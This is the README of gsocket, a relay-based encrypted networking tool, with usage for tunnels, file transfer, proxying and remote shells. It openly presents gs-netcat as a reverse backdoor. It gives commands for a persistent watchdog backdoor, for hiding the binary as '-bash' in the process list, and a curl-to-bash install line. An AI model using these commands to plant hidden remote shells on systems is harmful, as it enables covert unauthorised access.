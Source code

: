 # Global Socket
**Moving data from here to there. Securely, Fast and trough NAT/Firewalls.**

Global Socket allows two users behind NAT/Firewall to establish a TCP connection with each other. Securely.

**Features:**
- Uses the Global Socket Relay Network to connect TCP pipes
- End-2-End encryption (using OpenSSL's SRP / [RFC 5054](https://tools.ietf.org/html/rfc5054))
- AES-256 with a 4096 Prime
- No PKI required.
- Perfect Forward Secrecy
- TOR support (optional)

Abandon your thinking that an IP Address is needed to communicate with somebody. Instead start thinking that two Users should be able to communicate with each other as long as they know the same secret (key/password). The Global Socket Library handles the rest: It locally derives temporary session keys and IDs and finds the other User in the Global Relay Network. Once found the library then negotiates a secure TLS connection between both Users (End-2-End). **The Relay Network sees only the encrypted traffic**.

The library comes with example tools. Gs-netcat is a re-implementation of netcat. It supports the well loved *-e* option and spwans a true PTY/interactive command shell on a remote host. Effectively an AES-256 encrypted reverse backdoor via TOR (optional) and without the need of a Command & Control server. It can also be used to tunnel a friend into your local network or to give somebody temporary shell access to your workstation.

Direct Download: [gsocket-1.4.14.tar.gz](https://github.com/hackerschoice/gsocket/releases/download/v1.4.14/gsocket-1.4.14.tar.gz)

BETA BETA BETA. PRIVATE RELEASE ONLY.
---
**Installation:**
```
$ /bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/hackerschoice/gsocket/master/install.sh)"
```
---
**Usage:**

1. Log in to *Host* from *Workstation* through any firewall/NAT
```
$ ./gs-netcat -l -i   # Host
$ ./gs-netcat -i      # Workstation
```

2. Transfer files from *Workstation* to *Host*
```
$ gs-netcat -l -r >warez.tar.gz    # Host
$ gs-netcat <warez.tar.gz          # Workstation
```

3. Port forward. *Workstation's* Port 2222 is forwarded to 192.168.6.7 on *Host's* private LAN
```
$ gs-netcat -l -d 192.168.6.7 -p 22 # Host
$ gs-netcat -p 2222                 # Workstation
$ ssh -p 2222 root@127.0.0.1        # Will ssh to 192.168.6.7:22 on Host's private LAN
...or...
$ gs-netcat -s MySecret -l -d 192.168.6.7 -p 22                   # Host
$ ssh -o ProxyCommand='gs-netcat -s MySecret' root@doesnotmatter  # Workstation
```

4. Execute any command (nc -e style)
```
$ gs-netcat -l -e "echo hello world; id; exit"   # Host
$ gs-netcat                                      # Workstation
```

5. Quick Secure Chat with a friend
```
$ gs-full-pipe -s MySecret -A               # You
$ gs-full-pipe -s MySecret -A               # Them
```

6. Access entirety of Host's private LAN (Sock4/4a/5 proxy)
```
$ gs-netcat -l -S                                  # Host
$ gs-netcat -p 1080                                # Workstation

Access www.google.com via Host's private LAN from your Workstation:
$ curl --socks4a 127.1:1080 http://www.google.com 

Access fileserver.local:22 on Host's private LAN from your Workstation:
$ socat -  "SOCKS4a:127.1:fileserver.local:22"
```

7. SFTP through gs-netcat
```
$ gs-netcat -s MySecret -l -e /usr/lib/sftp-server         # Host

$ export GSOCKET_ARGS="-s MySecret"                        # Workstation
$ sftp -D gs-netcat                                        # Workstation
```

(SFTP's *-D* option makes sftp speak the sftp file exchange protocol to stdin/stdout without ssh-encryption/authentication. Encryption and authentication is provied by gs-netcat: It's SFTP _over_ gs-netcat.)

8. SoCAT 2 
```
gs-netcat can be used in a socat address-chain using the EXEC target. Happy bouncing. Enjoy. :> 
```
---
**Pro-Tips:**

1. Force TOR or fail:
Add -T to relay your traffic through TOR or use these environment variable to force TOR or fail gracefully if TOR is not running:
```
$ export GSOCKET_SOCKS_IP=127.0.0.1
$ export GSOCKET_SOCKS_PORT=9050
```

2. A reverse backdoor

The backdoor supports multiple concurrent connections and spawns a real PTY/interactive-shell with ctrl-c and colors working (like OpenSSH does).
```
$ gs-netcat -k keyfile.txt -l -i    # Host
$ gs-netcat -k keyfile.txt -T -i    # Workstation (via Tor & Global Socket Relay)
```

Add -D on the host side to run gs-netcat as a daemon and in watchdog-mode: The backdoor will automatically restart if it is ever killed.

3. Use -k

Using -s is not secure. Add your *secret* to a file and use -k &lt;filen&gt; or pipe your password into the programme (Note the 3x '<').
```
$ gs-netcat -li <<<"MySecretPassword"
```

Use this command to generate a new secure password at random:
```
$ gs-netcat -g
```

4. Hide your arguments (argv)

Pass the arguments by environment variable (GSOCKET_ARGS) and use a bash-trick to hide gs-netcat binary in the process list:
```
$ export GSOCKET_ARGS="-s MySecret -l -i -D"
$ exec -a -bash ./gs-netcat &     # Hide as '-bash'.
$ ps alxww | grep gs-netcat

$ ps alxww | grep -bash
  1001 47255     1   0  26  5  4281168    436 -      SNs    ??    0:00.00 -bash
```

---
**Crypto / Security Mumble Jumble**
1. The security is end-2-end. This means from User-2-User (and not just to the Relay Network). The Relay Network relays only (encrypted) data to and from the Users. 
2. The session key is 256 bit and ephemeral. It is freshly generated for every session and generated randomly (and is not based on the password).
3. The password can be 'weak' without weakening the security of the session. A brute force attack against a weak password requires a new TCP connection for every guess.
4. Do not use stupid passwords like 'password123'. Malice might pick the same (stupid) password by chance and connect. If in doubt use *gs-netcat -g* to generate a strong one. Alice's and Bob's password should at least be strong enough so that Malice can not guess it by chance while Alice is waiting for Bob to connect.
5. If Alice shares the same password with Bob and Charlie and either one of them connects then Alice can not tell if it is Bob or Charlie who connected.
6. Assume Alice shares the same password with Bob and Malice. When Alice stops listening for a connection then Malice could start to listen for the connection instead. Bob (when opening a new connection) can not tell if he is connecting to Alice or to Malice. Use -a &lt;token&gt; if you worry about this. TL;DR: When sharing the same password with a group larger than 2 then it is assumed that everyone in that group plays nicely. Otherwise use SSH over the GS/TLS connection.
7. SRP has Perfect Forward Secrecy. This means that past sessions can not be decrypted even if the password becomes known.
8. I did not invent SRP. It's part of OpenSSL :>
---

Join us 

Telegram: https://t.me/thcorg 

Twitter: https://twitter.com/hackerschoice

shoutz: D1G, xaitax, #!adm
